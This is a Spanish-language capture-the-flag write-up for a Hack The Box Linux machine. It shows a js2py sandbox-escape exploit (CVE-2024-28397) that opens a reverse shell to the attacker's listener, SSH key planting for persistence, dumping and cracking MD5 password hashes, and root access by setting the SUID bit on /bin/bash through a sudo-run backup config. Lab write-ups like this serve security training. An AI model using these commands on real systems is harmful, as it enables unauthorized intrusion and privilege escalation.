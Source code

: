 # Hack the box: Sandbox escape

## Host: Linux
## IP: 10.10.11.82
## Procedimiento y comandos
#### Paso 1: Enumeracions
```bash
# Nmap 7.95 scan initiated Thu Sep  4 12:37:52 2025 as: /usr/lib/nmap/nmap -A -oN CodePartTwo-nmap.txt 10.10.11.82
Nmap scan report for 10.10.11.82
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a0:47:b4:0c:69:67:93:3a:f9:b4:5d:b3:2f:bc:9e:23 (RSA)
|   256 7d:44:3f:f1:b1:e2:bb:3d:91:d5:da:58:0f:51:e5:ad (ECDSA)
|_  256 f1:6b:1d:36:18:06:7a:05:3f:07:57:e1:ef:86:b4:85 (ED25519)
8000/tcp open  http    Gunicorn 20.0.4
|_http-title: Welcome to CodePartTwo
|_http-server-header: gunicorn/20.0.4
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 554/tcp)
HOP RTT       ADDRESS
1   164.72 ms 10.10.14.1
2   164.94 ms 10.10.11.82

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep  4 12:38:10 2025 -- 1 IP address (1 host up) scanned in 18.86 seconds
```

* Directorios

```bash
$ gobuster dir -u http://10.10.11.82:8000/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -t 100
 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://codetwo.htb:8000/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login                (Status: 200) [Size: 667]
/download             (Status: 200) [Size: 10696]
/register             (Status: 200) [Size: 651]
/logout               (Status: 302) [Size: 189] [--> /]
/dashboard            (Status: 302) [Size: 199] [--> /login]
Progress: 87664 / 87665 (100.00%)
===============================================================
Finished
===============================================================
```
#### Paso 2: Acceso inicial

* Descargamos el codigo fuente desde la url Download

> Revisando encontramos que es un sandbox **js2py** buscmos vulnerabilidades, encontramos el siguiente exploit

[php exploit](https://github.com/Leilamag/CodeTwoRCEExploit)

* Seguimos las instrucciones en el README.md.. instalacion de compose, php etc..

* Explotamos, levantamos un receptor nc en el puerto 4444:

1. Exploit

```bash
 php CodeTwoRCEExploit.php -t 10.10.11.82 -p 8000 -P /run_code -l 10.10.14.188 -r 4444 -u test -w test -v
=======================================
     Exploit js2py CVE-2024-28397
=======================================
[*] Attempting to login with username=test&password=test...
[+] Login successful. Status: 200
[+] Login response body: Invalid credentials
[*] Running exploit against 10.10.11.82:8000 (URI: /run_code)...
[*] Sending payload to code editor...
[-] Error: cURL error 28: Operation timed out after 10002 milliseconds with 0 bytes received (see https://curl.haxx.se/libcurl/c/libcurl-errors.html) for http://10.10.11.82:8000/run_code
[+] Exploit executed. Check your listener.
```

2. Receptor

```bash
  nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.188] from (UNKNOWN) [10.10.11.82] 39058
bash: cannot set terminal process group (895): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.0$ whoami
whoami
app
bash-5.0$ 
```
> Con el fin de trabajar mas comodos nos conectamos por **ssh**

1. Creamos directorio .ssh en app si no existe

```bash
mkdir .ssh && cd .ssh
```
2. Copiamos la clave publica de nuestro kali en **authorized_keys**

```bash
echo "<kali_id_rsa.pub>" > authorized_keys
```
3. Nos conectamos como app por ssh

```bash
  ssh app@10.10.11.82 -P 22

bash-5.0$
...
```
#### Paso 3: Movimiento lateral

1. Encontramos users.db dentro de _/app/instances/users.db_ y observamos sqlite3 en ejecucion

```bash
bash-5.0$ sqlite3 users.db
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
```
2. Desplegamos tablas

```bash
sqlite> .tables
code_snippet  user
```
3. Dumpeamos la tabla **user**

```bash
sqlite> SELECT * FROM user;
1|marco|649c9d65a206a75f5abe509fe128bce5
2|app|a97588c0e2fa3a024876339e27aeb42e
3|neur|827ccb0eea8a706c4c34a16891f84e7b
```

4. Crackeamos el hash de marco:

* [CrackStation](https://crackstation.net/)

* hashcat:

```bash
hashcat -m 0 -a 0 "649c9d65a206a75f5abe509fe128bce5" /usr/share/wordlists/rockyou.txt

===========================================
649c9d65a206a75f5abe509fe128bce5:sweetangelbabylove 
===========================================
```

5. Nos conectamos por **ssh** con el usuario **marco**

```bash
  ssh marco@10.10.11.82 -P 22
marco@10.10.11.82's password: sweetangelbabylove

============================
bash-5.0$ whoami
marco
bash-5.0$ 
```

6. Obtenemos el flag user.txt

```bash
-bash-5.0$ ls
backups  npbackup.conf  user.txt
-bash-5.0$ cat user.txt
90292719142d6f36175a265849654db8
-bash-5.0$ 
```

#### Paso 4: Escalada de privilegios

* Notamos al listar archvos una carpeta backup y un archivo npbackup.conf

```bash
-bash-5.0$ sudo -l
Matching Defaults entries for marco on codeparttwo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User marco may run the following commands on codeparttwo:
    (ALL : ALL) NOPASSWD: /usr/local/bin/npbackup-cli
-bash-5.0$ 
```

> Podemos ejecutar como **super user** npbackup-cli

1. Observamos el contenido del .conf y vemos que tiene un par de parametros interesantes que se pueden modificar:

* pre_exec_commands:[]
* post_exec_commands:[]

> Al intentar editar el archivo directamente vemos que no tenemos permisos de edicion por lo tanto generamos una copia

```bash
cp npbackup.conf pwn.conf
```

2. Editamos el archivo pwn.conf

```bash
pre_exec_commands: "chmod 4755 /bin/bash"
```
3. Ejecutamos npbackup-cli

```bash
-bash-5.0$ sudo npbackup-cli -c pwn.conf -b
```

4. Revisamos permisos de /bin/bash

```bash
ls -la /bin/bash

-bash-5.0$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

5. Ejecutamos y obtenemos el flag

```bash
-bash-5.0$ /bin/bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt
749a921cba845593e233790b99f5d842
bash-5.0# 
```

